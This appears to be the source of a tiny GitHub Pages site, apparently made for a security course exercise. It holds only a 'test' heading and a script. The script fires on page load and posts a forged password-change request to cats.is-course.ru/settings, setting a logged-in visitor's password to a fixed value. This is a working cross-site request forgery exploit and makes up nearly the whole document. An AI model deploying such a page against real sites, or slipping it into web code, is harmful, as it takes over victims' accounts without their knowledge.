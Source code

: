 # vladpyzh.github.io
<h1>test</h1>
<script>fetch("https://cats.is-course.ru/settings", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "password=CatsRuletheWorld1%21&confirm-password=CatsRuletheWorld1%21"
});</script>
